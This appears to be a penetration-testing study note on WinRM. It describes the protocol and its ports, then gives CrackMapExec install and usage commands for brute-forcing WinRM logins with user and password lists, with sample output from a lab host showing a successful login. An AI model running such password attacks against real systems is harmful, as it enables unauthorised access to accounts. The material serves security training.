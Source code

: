 * Every computer network we encounter will have services installed to manage, edit, or create content
* All these services are hosted using specific permissions and are assigned to specific users

![](../Screenshots/Screenshot_2022-11-11_173659.png)

## WinRM
* [Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) (`WinRM`)
* Microsoft's implementation of [Web Services Management Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol) (`WS-Management`)
* Protocol based on XML web services using the [Simple Object Access Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-glossary) (`SOAP`) used for remote management of Windows systems
* Takes care of the communication between [Web-Based Enterprise Management](https://en.wikipedia.org/wiki/Web-Based_Enterprise_Management) (`WBEM`) and the [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (`WMI`), which can call the [Distributed Component Object Model](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0) (`DCOM`)
* For security reasons, WinRM must be activated and configured manually in Windows 10
* Depends heavily on the environment security in a domain or local network where we want to use WinRM
* TCP ports `5985` (`HTTP`) and `5986` (`HTTPS`)
* Use CrackMapExec for password attacks

#### CrackMapExec

```sh
sudo apt-get -y install crackmapexec
```

#### CrackMapExec Usage

```sh
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```sh
crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

